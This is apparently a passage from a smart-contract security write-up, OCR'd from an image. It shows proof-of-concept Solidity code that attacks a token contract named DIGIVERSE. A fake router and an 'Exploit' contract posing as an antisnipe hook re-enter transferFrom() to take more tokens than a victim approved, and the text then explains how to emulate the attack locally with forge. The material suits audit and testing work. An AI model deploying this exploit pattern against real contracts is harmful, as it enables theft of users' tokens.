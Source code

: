 ```js
        return address(0x10ED43C718714eb63d5aA57B78B54704E256024E); // Common WETH address
    }
    function factory() external returns (address) {
        // Return a fake factory address for testing
        return address(fac);
    }
}
```
then use this address as `currentRouter` in DIGIVERSE's constructor:
```js
contract DIGIVERSE is Context, IERC20, Ownable {
  ...
  constructor(address router) {
    ...
    currentRouter = router;
  }
  ...
}
```
Then, I need a contract as `faked antisnipe` contract:
```js
contract Exploit {
    DIGIVERSE target;
    address public victim;
    bool public trigger;
    uint THREAT_TOKENS = 100;

    constructor(address payable t, address vic){
        target = DIGIVERSE(t);
        victim = vic;
        trigger = false;
    }

    function assureCanTransfer(
        address sender,
        address from,
        address to,
        uint256 amount
    ) public {
        if (!trigger){
            trigger = true;
            target.transferFrom(victim, address(this), THREAT_TOKENS);
        }
    }

    function exploit() public {
        target.transferFrom(victim, address(this), THREAT_TOKENS);
    }
}
```
Ensure that our contract has `assureCanTransfer()` function and it will call `transferFrom()` again to trigger using more than approved amount token. Now, we have 2 options to emulate the attack on local:
1. Using test unit feature of `forge`.
2. Deploy contracts on local and call function like a normal chain network.
